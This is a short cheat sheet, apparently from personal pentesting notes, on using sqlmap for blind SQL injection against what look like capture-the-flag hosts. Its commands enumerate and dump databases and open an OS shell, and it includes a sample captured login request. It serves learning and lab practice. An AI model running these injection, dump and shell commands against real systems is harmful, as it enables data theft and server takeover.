 # Sqlmap

Sqlmap is a tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers.

## Blind SQL injection

We can inject SQL code but not see the output.

```bash
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --dbs --threads 10 --
level 5 --risk 3 --batch
```

- `-u` Target URL
- `--data` Data string to be sent through POST (e.g. "id=1")
- `--dbs` Enumerate DBMS databases
- `--threads` Max number of concurrent HTTP(s) requests (default 1)
- `--level` Level of tests to perform (1-5, default 1)
- `--risk` Risk of tests to perform (1-3, default 1)
- `--batch` Never ask for user input, use the default behavior

If we found a DB we can dump its content with:

```bash
sqlmap -u <URL> --data '{"<FIELD>": "*" }' --threads <NUMBER> -D <database_name> --dump --batch
```

- `D` DBMS database to enumerate
- `--dump` Dump DBMS database table entries

To obtain a reverse shell we can use:

```bash
sqlmap -u <URL> --data '{"<FIELD>": "*" }' --threads <NUMBER> --os-shell --batch
```

And we can use a request file to avoid the need of the URL:

```bash
sqlmap -r <request_file> --threads <NUMBER> --os-shell --batch
```

A request file would look something like this:

```
POST /dirb_safe_dir_rf9EmcEIx/admin/dologin.php HTTP/1.1
Host: www.securewebinc.jet
Content-Length: 25
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://www.securewebinc.jet
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://www.securewebinc.jet/dirb_safe_dir_rf9EmcEIx/admin/login.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=2jn4imainfddc3vatcddfoafg5
Connection: close

username=admin&password=a
```

## Docs

- https://github.com/sqlmapproject/sqlmap/wiki/Usage